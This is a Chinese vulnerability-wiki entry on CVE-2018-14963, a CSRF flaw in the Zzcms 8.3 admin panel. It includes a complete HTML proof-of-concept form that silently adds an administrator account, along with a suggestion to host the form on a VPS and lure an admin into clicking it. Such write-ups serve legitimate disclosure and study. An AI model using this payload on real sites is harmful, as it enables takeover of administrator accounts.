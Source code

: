 （CVE-2018-14963）Zzcms 8.3 csrf
================================

一、漏洞简介
------------

二、漏洞影响
------------

Zzcms 8.3

三、复现过程
------------

csrf漏洞，这个问题也是从上个版本就存在的问题，就是整个管理员后台的，所有表单都是没有设置csrf的token的，所以只要涉及到敏感操作的表单，都可以使用csrf来攻击，达成很多攻击利用。

这里的攻击是产生在了/admin/adminadd.php的添加管理员操作，构造的表单如下：

    <html>
      <body>
      <script>history.pushState('', '', '/')</script>
        <form action="http://0-sec.org:8080/admin/adminadd.php?action=add" method="POST">
          <input type="hidden" name="groupid" value="1" />
          <input type="hidden" name="admins" value="123" />
          <input type="hidden" name="passs" value="123" />
          <input type="hidden" name="passs2" value="123" />
          <input type="submit" value="Submit request" />
        </form>
      </body>
    </html>

构造好了payload以后，放到vps上，然后诱导管理员点击恶意链接，即可成功添加管理员。

未添加管理员之前：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-14963)Zzcms8.3csrf/media/rId24.png)

点击链接之后：

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-14963)Zzcms8.3csrf/media/rId25.png)

参考链接
--------

> <https://www.anquanke.com/post/id/156660>
